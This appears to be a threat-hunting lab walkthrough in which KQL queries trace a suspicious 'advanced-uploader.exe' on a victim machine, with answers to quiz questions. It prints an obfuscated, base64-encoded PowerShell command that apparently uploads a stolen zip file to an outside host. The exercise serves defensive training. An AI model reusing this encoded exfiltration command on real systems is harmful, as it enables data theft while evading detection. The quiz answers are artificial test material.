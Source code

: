 ```sql
FileCreationEvents
| where hostname == 'ITCK-MACHINE'
| where filename endswith "zip"
| project-keep path
```

![image.png](Cowboy%20Couture%202577141dc54380d9b277c1cdcb2cd873/image%202.png)

### Question 7

An executable file, `advanced-uploader.exe`, appears on Megan’s machine after the creation of the zip files. Executable files, or .exe files, are programs that can run on a computer. This could be a tool used to move data out of the network,

**What is the timestamp for when this file was created?**

> `10/2/2024, 8:36:47 AM`
> 

```sql
FileCreationEvents
| where hostname == 'ITCK-MACHINE' and filename == "advanced-uploader.exe"
```

### Question 8

Now that we’ve identified the suspicious `advanced-uploader.exe` file, the next step is to check if this file was actually run on Megan’s machine. To do this, we’ll look at the `ProcessEvents` table, which records all processes that have been executed. If we find evidence of this file being run, it could confirm that it was used to exfiltrate the stolen designs.

```sql
ProcessEvents
| where hostname == "ITCK-MACHINE"
| where process_name == "advanced-uploader.exe"
```

**Was this process executed on Megan's machine?**(Yes/No)

> `Yes`
> 

```sql
C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -Command "$enc = 'QzpcV2luZG93c1xTeXN0ZW0zMlxwb3dlcnNoZWxsLmV4ZSAtTm9wIC1FeGVjdXRpb25Qb2xpY3kgYnlwYXNzIC1Db21tYW5kICIkcmV2ID0gJzMgeXJ0ZXItLSBCTTUgZXppcy1rbnVoYy0tIHRweXJjbmUtLSBuaWhzdXB0aXRlZWthbnRyYXBlcmVodGFrb29sb3RuaWh0b250bmlhL21vYy55cnJlYmVsa2N1aC1ydW95LW1pLy86cHR0aCB0c2VkLS0gcGl6LnRvb2xfZGVvc3NhbFxjaWxidVBcc3Jlc1VcOkMgZWxpZi0tIGV4ZS5yZWRhb2xwdS1kZWNuYXZkYSc7JHJldls6Oi0xXSI=';[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($enc))"
```

### Question 9

This is not looking good! The advanced-uploader.exe process was executed using an encrypted base64 command. Attackers often encode their commands to hide malicious activity and make it harder to detect.
